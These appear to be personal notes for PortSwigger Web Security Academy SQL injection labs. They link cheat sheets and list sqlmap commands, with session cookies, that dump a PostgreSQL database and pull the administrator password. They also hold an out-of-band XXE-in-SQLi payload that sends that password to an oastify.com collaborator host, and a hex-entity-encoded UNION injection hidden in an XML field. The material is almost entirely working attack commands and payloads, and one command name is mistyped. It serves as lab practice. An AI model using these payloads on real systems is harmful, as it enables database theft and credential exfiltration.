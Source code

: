 ____

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


```bash
sqlmap -u "https://0a9100e603500d0982375131006f00bc.web-security-academy.net/filter?category=Gifts" --cookie="session=7biRvfgHaUlvwd8pXfLeRYKYtYFxAkEx" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql --dump -D public
```


```bash
sqlmap -u "https://0a39002b04d1c3af83dc5ac4006e0063.web-security-academy.net/filter?category=test" --cookie="session=N3QaEz5GFooyaQ4CxomOPoxXWZ7PVdmH" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


# TrackingId

```bash
qlmap -u "https://0aef001c04d61b8e81771771008e0081.web-security-academy.net/filter?category=test" --cookie="TrackingId=YJopvpBsdNu7Eti3" --level 5 --risk 3 -p TrackingId --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


# Out of band

```bash
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//j4ouhbvxp3hdpkybcyx189hrbih85x.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

```bash
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.j4ouhbvxp3hdpkybcyx189hrbih85x.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

# XML encoding

**Extensions > Hackvertor > Encode > dec_entities/hex_entities**.

```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

